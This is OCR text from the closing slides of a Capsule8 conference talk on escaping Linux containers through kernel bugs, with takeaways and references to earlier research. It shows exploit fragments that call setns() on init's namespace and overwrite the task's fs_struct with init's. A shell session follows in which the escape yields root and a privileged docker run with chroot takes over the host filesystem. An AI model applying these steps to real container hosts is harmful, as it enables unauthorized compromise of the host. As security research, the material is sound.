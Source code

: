 PID "1"

// call setns() on it, giving our a better mount ((_sys_setns)(SYS_SETNS))(fd, 0);

Container

OR...

task_struct
volatile long state void *stack
...lots of fields...
int pid int tgid task_struct *parent cred *cred fs_struct *fs char comm[TASK_COMM_LEN] nsproxy *nsproxy css_set *cgroups
...many more fields...

fs_struct
int users spinlock_t lock seqcount_t seq int umask int in_exec struct path root struct path pwd

Swapping out fs_struct
// just copy init's fs_struct *(uint64_t *)(task + TASK_FS_OFFSET) = ((_copy_fs_struct)(COPY_FS_STRUCT))(
*(uint64_t *)(init + TASK_FS_OFFSET));
user@85c050f5:/tmp$ ./escape
// now that we have the root fs, we have free reign root@85c050f5:/tmp# docker run -it --privileged --pid host -v /:/hostroot ubuntu root@b33dac42:/# chroot /hostroot # :)

Takeaways

Lack of uniformity in container ecosystem complicates meaningful security metrics

Namespaces are hard (ref: CVE-2018-18955)

CVE-2019-5736 was awesome, but any decent kernel bug is a portal gun .

References
Spender was escaping before containers were containers, checkout the work: https://www.grsecurity.net/~spender/exploits/
Abusing Privileged and Unprivileged Linux Containers, by Jesse Hertz, NCC Group https://www.nccgroup.trust/globalassets/ourresearch/us/whitepapers/2016/june/container_whitepaper.pdf
Docker Escape Technology, Shengping Wang, Qihoo 360 Marvel Team https://cansecwest.com/slides/2016/CSW2016_Wang_DockerEscapeTechnology.pdf
An Exercise in Practical Container Escapology, Nick Freeman, Capsule8 https://capsule8.com/blog/practical-container-escape-exercise/

Thank you

Brandon Edwards @drraid
brandon@capsule8.com

Nick Freeman @0x7674
nick@capsule8.com

